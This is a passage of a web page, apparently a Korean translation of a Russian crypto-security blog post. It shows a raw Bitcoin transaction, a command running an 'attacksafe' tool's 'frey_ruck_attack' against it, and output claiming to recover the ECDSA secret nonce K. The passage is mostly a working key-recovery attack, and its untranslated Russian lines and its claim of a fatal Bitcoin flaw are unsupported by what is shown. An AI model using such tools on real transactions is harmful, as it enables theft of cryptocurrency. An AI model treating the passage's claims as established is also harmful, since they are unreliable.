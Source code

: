 

<pre class="wp-block-code"><code>0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool frey_ruck_attack</code>소프트웨어를 사용하여&nbsp;실행<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool frey_ruck_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-42-1024x261.png" alt="비밀 키 &quot;K&quot;(NONCE)를 얻기 위해 Frey-Rück 공격을 구현합니다." class="wp-image-963"/></figure>



<p>우리는 이 공격을 시작했고&nbsp;<code>-tool frey_ruck_attack</code>그 결과는 파일에 저장되었습니다.<code>SecretKey.txt</code></p>



<p>이제 성공적인 결과를 보려면 파일을 엽니다.<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-43-1024x487.png" alt="비밀 키 &quot;K&quot;(NONCE)를 얻기 위해 Frey-Rück 공격을 구현합니다." class="wp-image-965"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3

RawTX = 0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000</code></pre>



<p><code>"Deployments ECDSA"</code>우리는 비트코인 ​​블록체인 트랜잭션의 치명적인 취약점을 의미하는&nbsp;비문을 봅니다 .</p>



<p><code>SecretKey значение в формате HEX, это и есть наш секретный ключ "K" (NONCE):</code></p>



<p><code>K = 0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3</code></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>
